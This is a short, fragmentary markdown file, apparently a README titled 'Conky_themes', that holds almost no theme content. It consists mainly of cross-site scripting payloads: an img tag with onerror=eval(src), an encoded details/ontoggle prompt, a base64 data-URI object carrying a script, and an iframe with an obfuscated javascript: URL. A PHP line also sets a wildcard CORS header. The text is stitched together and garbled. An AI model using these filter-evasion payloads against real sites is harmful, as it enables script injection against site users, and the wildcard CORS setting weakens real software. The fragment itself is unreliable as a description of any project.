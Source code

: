 <img src=x:window.alert(1); onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
<?php header(“Access-Control-Allow-Origin: *”); ?>
<img src=1 onerror=alert(document.domain)>
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<iframe src="\x01javascript:alert(0)"></iframe> 
4
